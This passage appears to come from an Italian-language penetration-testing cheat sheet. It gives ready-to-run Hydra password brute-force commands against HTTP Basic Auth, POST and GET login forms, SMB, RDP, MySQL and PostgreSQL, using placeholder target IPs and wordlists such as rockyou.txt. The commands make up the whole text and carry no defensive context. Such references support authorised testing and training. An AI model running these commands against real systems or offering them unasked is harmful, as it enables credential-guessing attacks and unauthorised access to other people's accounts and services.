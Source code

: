 #### 🌐 HTTP Basic Auth

```bash
# HTTP Basic Auth (username + password)
hydra -L users.txt -P passwords.txt <target-ip> http-get /

# HTTP su porta custom
hydra -l admin -P pass.txt <target-ip> -s 8080 http-get /
```

#### 🌐 HTTP Form (POST)

```bash
# Form POST classico con messaggio di errore 'Invalid'
hydra -l admin -P rockyou.txt <target-ip> \
http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"

# Esempio con redirect (quando login valido non mostra 'Invalid')
hydra -l admin -P pass.txt <target-ip> \
http-post-form "/login:username=^USER^&password=^PASS^:S=dashboard"
```

#### 🌐 HTTP Form (GET)

```bash
# Login tramite GET (raro ma capita)
hydra -L users.txt -P passwords.txt <target-ip> \
http-get-form "/login.php?user=^USER^&pass=^PASS^:Invalid login"
```

#### 📦 SMB

```bash
# SMB login brute force
hydra -L users.txt -P passwords.txt smb://<target-ip>
```

#### 🖥️ RDP

```bash
# Brute force su Remote Desktop Protocol
hydra -L users.txt -P passwords.txt rdp://<target-ip>
```

#### 💾 MySQL

```bash
# Brute force su MySQL
hydra -L users.txt -P passwords.txt mysql://<target-ip>
```

#### 📊 PostgreSQL

```bash
# Brute force su PostgreSQL
hydra -L users.txt -P passwords.txt postgres://<target-ip>
```

---
